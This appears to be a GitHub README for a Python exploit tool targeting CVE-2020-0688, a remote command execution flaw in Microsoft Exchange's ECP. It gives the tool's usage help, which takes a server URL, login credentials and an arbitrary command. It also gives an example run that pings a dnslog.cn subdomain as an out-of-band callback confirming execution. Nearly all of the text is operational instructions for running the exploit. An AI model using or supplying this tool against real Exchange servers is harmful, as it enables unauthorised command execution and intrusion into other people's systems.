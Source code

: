 # cve-2020-0688
Usage:
```
usage: cve-2020-0688.py [-h] -s SERVER -u USER -p PASSWORD -c CMD

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        ECP Server URL Example: http://ip/owa
  -u USER, --user USER  login account Example: domain\user
  -p PASSWORD, --password PASSWORD
                        Password
  -c CMD, --cmd CMD     Command u want to execute
```

example:
```
python cve-2020-0688.py -s https://ip/owa/ -u user -p pass -c "ping test.ph4nxq.dnslog.cn"
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200227105319.png)

